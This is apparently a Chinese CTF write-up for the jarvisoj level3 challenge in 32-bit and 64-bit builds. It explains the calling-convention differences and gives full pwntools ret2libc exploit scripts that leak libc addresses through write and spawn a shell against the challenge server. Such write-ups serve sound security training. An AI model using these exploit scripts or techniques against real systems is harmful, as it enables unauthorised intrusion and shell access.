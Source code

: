 ﻿64位程序和32位的区别就是在于参数的传递。32位使用栈帧来作为传递的参数的保存位置，而64位使用寄存器，分别用rdi,rsi,rdx,rcx,r8,r9作为第1-6个参数。rax作为返回值
64位没有栈帧的指针，32位用ebp作为栈帧指针，64位取消了这个设定，rbp作为通用寄存器使用。

具体可以看这篇：<https://yq.aliyun.com/ziliao/483166>

用两道题目一样但一个是32位一个是64位来看看具体的区别。

题目地址： https://pan.baidu.com/s/1wsts4hC25ndlw_DPA-fsRg

提取码：01un

主函数


	int __cdecl main(int argc, const char **argv, const char **envp)

	{

		vulnerable_function();

		return write(1, "Hello, World!\n", 0xEuLL);

	}

	ssize_t vulnerable_function()

	{

		char buf; // [rsp+0h] [rbp-80h]

		write(1, "Input:\n", 7uLL);

		return read(0, &buf, 0x200uLL);

	}

很明显的栈溢出，但文件里面没有给system和/bin/sh但给了libc所以需要leak出基址就可以了。这里要栈溢出两次，第一次返回到主函数。

32位的exp

	#!/usr/bin/env python

	#-*- coding:utf-8 -*-

	from pwn import *

	#context.terminal = ['terminator','-x','sh','-c']

	#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

	elf=ELF('level3')

	libc = ELF('libc-2.19.so')

	#r=process('level3')

	r=remote('pwn2.jarvisoj.com',9879)

	#pwnlib.gdb.attach(r)

	write_plt=elf.plt['write']

	write_got=elf.got['write']

	main=elf.symbols['main']

	payload=flat(['a'\*140,write_plt,main,1,write_got,4])

	r.recvuntil("Input:\n")

	r.sendline(payload)

	write_addr = u32(r.recv(4))

	base_addr = write_addr - libc.symbols['write']

	sys_addr=base_addr+libc.symbols['system']

	binsh_addr=base_addr+libc.search('/bin/sh').next()

	payload=flat(['a'*140,sys_addr,'a'*4,binsh_addr])

	r.recvuntil("Input:\n")

	r.sendline(payload)

	r.interactive()

64位就需要先找到几个传参数的寄存器。用ROPgadget来找比较方便。但是这里存在一个问题:  
当我们想要构造 write() 函数的调用栈的时候 ,
参数的传递需要通过寄存器传参的方式进行也就是说要调用 write(1, read_got,
0x08)我们需要将 :  
rdi 设置为 1  
rsi 设置为 read() 函数在 got 表中的地址  
rdx 设置为 0x08  
我们来通过 ropper 来寻找一下 pop rdi; ret 指令 ,
发现可以成功在可执行程序中找到pop rsi; ret 也可以顺利找到但是 pop rdx; ret
却找不到 , 这个时候应该怎么办呢 ?如果我们不设置 rdx寄存器的值的话 , 那在 write()
调用的时候就会直接取得 rdx 之前的值  
我们可以考虑一下 , 我们这里只需要获取 write() 返回的前八个字节作为地址  
那么就算打印的数据较多 , 也并不会影响什么 , 只需要能保证 rdx 寄存器的值大于 8
即可经过调试发现这里 rdx 的值确实是大于 8 的 ,
这样我们就只需要接收前八个字节作为地址即可。

	0x00000000004006b3 : pop rdi ; ret

	0x00000000004006b1 : pop rsi ; pop r15 ; ret

拿到了两个地址之后就是leak出write的真实地址计算基址就行了。第二次溢出就一个参数，只要用rdi就行了。

Exp

	#!/usr/bin/env python

	#-*- coding:utf-8 -*-

	from pwn import *

	#r=process('./level3_x64')

	elf=ELF('level3_x64')

	libc=ELF('libc-2.19.so')

	r=remote("pwn2.jarvisoj.com", "9883")

	#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

	vul_ret_addr=0x04005E6

	pop_rdi_addr=0x004006b3

	pop_rsi_addr=0x004006b1

	write_plt=elf.plt['write']

	write_got=elf.got['write']

	payload='a'*0x88+p64(pop_rdi_addr)+p64(1)+p64(pop_rsi_addr)+p64(write_got)+'daassaas'+p64(write_plt)+p64(vul_ret_addr)

	r.recvuntil("Input:\n")

	r.sendline(payload)

	write_addr=u64(r.recv(8))

	write_libc=libc.symbols['write']

	base_addr=write_addr-write_libc

	system_addr=libc.symbols['system']+base_addr

	bin_addr=libc.search('/bin/sh').next()+base_addr

	payload='a'*0x88+p64(pop_rdi_addr)+p64(bin_addr)+p64(system_addr)

	r.sendline(payload)

	r.interactive()
